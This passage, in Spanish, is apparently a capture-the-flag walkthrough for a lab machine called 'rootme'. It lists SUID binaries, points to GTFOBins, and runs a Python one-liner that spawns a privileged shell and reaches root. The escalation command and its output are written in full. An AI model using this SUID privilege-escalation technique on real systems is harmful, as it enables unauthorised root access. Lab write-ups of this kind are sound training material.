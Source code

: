 ```bash
./snap/core/8268/usr/bin/chfn
./snap/core/8268/usr/bin/chsh
./snap/core/8268/usr/bin/gpasswd
./snap/core/8268/usr/bin/newgrp
./snap/core/8268/usr/bin/passwd
./snap/core/8268/usr/bin/sudo
./snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
./snap/core/8268/usr/lib/openssh/ssh-keysign
./snap/core/8268/usr/lib/snapd/snap-confine
./snap/core/8268/usr/sbin/pppd
./snap/core/9665/bin/mount
./snap/core/9665/bin/ping
./snap/core/9665/bin/ping6
./snap/core/9665/bin/su
./snap/core/9665/bin/umount
./snap/core/9665/usr/bin/chfn
./snap/core/9665/usr/bin/chsh
./snap/core/9665/usr/bin/gpasswd
./snap/core/9665/usr/bin/newgrp
./snap/core/9665/usr/bin/passwd
./snap/core/9665/usr/bin/sudo
./snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
./snap/core/9665/usr/lib/openssh/ssh-keysign
./snap/core/9665/usr/lib/snapd/snap-confine
./snap/core/9665/usr/sbin/pppd
./bin/mount
./bin/su
./bin/fusermount
./bin/ping
./bin/umount
www-data@rootme:/$ 
```

Vemos que tenemos permisos SUID para el binario python, por lo que vamos a nuestra página de confianza [GTFobins](https://gtfobins.github.io/):

```bash
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visulizar la flag (root.txt).